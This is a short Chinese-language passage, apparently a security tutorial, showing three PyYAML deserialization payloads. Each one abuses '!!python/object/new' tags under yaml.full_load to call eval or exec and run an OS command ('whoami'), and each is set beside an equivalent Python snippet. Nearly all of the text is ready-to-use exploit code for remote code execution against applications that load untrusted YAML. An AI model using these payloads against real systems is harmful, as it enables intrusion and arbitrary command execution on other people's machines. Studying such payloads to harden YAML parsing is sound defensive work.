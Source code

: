 `tuple` 更换为`frozenset` 、`bytes` 等不可变类型也可以

**触发带参调用 + 引入函数**

payload1

```python
exp = type("exp", (), {"extend": eval})
exp.extend("__import__('os').system('whoami')")
```

```python
yaml.full_load("""
!!python/object/new:type
args:
  - exp
  - !!python/tuple []
  - {"extend": !!python/name:exec }
listitems: "__import__('os').system('whoami')"
""")
```

payload2

```python
exp = type("exp", (list, ), {"__setstate__": eval})
exp.__setstate__("__import__('os').system('whoami')")
```

```python
yaml.full_load("""
!!python/object/new:type
args:
  - exp
  - !!python/tuple []
  - {"__setstate__": !!python/name:eval }
state: "__import__('os').system('whoami')"
""")
```

payload3

```python
exp = staticmethod([0])
exp.__dict__.update(
    {"update": eval, "items": list}
)
exp_raise = str()
# 由于 str 没有 __dict__ 方法，所以在 PyYAML 解析时会触发下面调用

exp.update("__import__('os').system('whoami')")
```

```python
yaml.full_load("""
!!python/object/new:str
    args: []
    # 通过 state 触发调用
    state: !!python/tuple
      - "__import__('os').system('whoami')"
      # 下面构造 exp
      - !!python/object/new:staticmethod
        args: []
        state: 
          update: !!python/name:eval
          items: !!python/name:list  # 不设置这个也可以，会报错但也已经执行成功
""")
```
